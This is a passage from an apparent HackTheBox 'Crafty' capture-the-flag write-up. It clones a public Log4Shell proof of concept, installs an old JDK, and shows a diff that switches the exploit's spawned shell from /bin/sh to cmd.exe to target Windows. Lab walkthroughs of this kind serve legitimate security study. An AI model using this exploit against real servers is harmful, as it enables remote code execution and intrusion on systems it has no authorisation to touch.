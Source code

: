 ![](/assets/obsidian/5907ac584725e24889fe0e91be3260f0.png)

#### Exploit

> https://github.com/kozmer/log4j-shell-poc

```bash
git clone https://github.com/kozmer/log4j-shell-poc
cd log4j-shell-poc
```

Download the java binary as described in POC documentation (Requires oracle account)

> https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

```bash
tar -xf jdk-8u202-linux-x64.tar.gz
```

I had to modify the POC

```bash
┌──(bravosec㉿fsociety)-[~/htb/Crafty/exploit/log4j-shell-poc_original]
└─$ diff poc.py ../log4j-shell-poc/poc.py
26c26
<         String cmd="/bin/sh";
---
>         String cmd="cmd.exe";
62c62
<         subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
---
>         subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_202/bin/javac"), str(p)])
87c87
<         os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
---
>         os.path.join(CUR_FOLDER, 'jdk1.8.0_202/bin/java'),
99c99
<         os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
---
>         os.path.join(CUR_FOLDER, "jdk1.8.0_202/bin/java"),
```
